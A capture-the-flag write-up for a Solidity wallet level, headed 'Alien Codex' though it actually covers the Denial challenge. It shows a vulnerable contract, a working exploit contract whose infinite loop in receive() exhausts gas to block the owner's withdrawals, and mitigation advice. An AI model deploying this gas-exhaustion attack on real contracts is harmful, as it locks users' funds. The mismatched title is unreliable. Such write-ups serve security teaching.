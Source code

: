 # Alien Codex

## Challenge Description

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner;
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances;

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    receive() external payable {}

    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}

```

## Challenge Solution Walkthrough

In the `withdraw()` function, a low-level `call` function is used, which forwards `63/64` of the available gas to the external contract. However, it's important to note that if all of the forwarded gas is consumed during the execution, the remaining `1/64` amount of gas may not be sufficient to complete the computation.

To exploit this vulnerability, we can deploy a separate contract that interacts with the target contract. Here is the contract code for the exploit contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Denial.sol";

contract DenialSolution {
    Denial public denial;

    constructor(address denialAddress) {
        denial = Denial(payable(denialAddress));
    }

    function solveChallenge() public {
        denial.setWithdrawPartner(address(this));
        denial.withdraw();
    }

    receive() external payable {
        while (true) {}
    }
}
```

In this contract, when the `solveChallenge()` function is called, we set the exploit contract as the "partner" of the target contract by invoking the `setWithdrawPartner()` function. Then, when the `withdraw()` function is called, it executes the line of code `partner.call{value: amountToSend}("");`, which triggers the `receive()` function in our exploit contract and consumes `63/64` of the total gas available. Inside the `receive()` function, an infinite loop is used to consume all available gas, preventing the execution from completing.

As a result, no other party can successfully call the `withdraw()` function because the remaining `1/64` amount of gas is not sufficient to finish the computation, effectively denying access to the funds.

By deploying the exploit contract and calling the `solveChallenge()` function, we successfully exploit the vulnerability and prevent anyone else from withdrawing funds from the target contract.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.

If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.

Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.

*Note*: An external `CALL` can use at most 63/64 of the gas currently available at the time of the `CALL`. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.

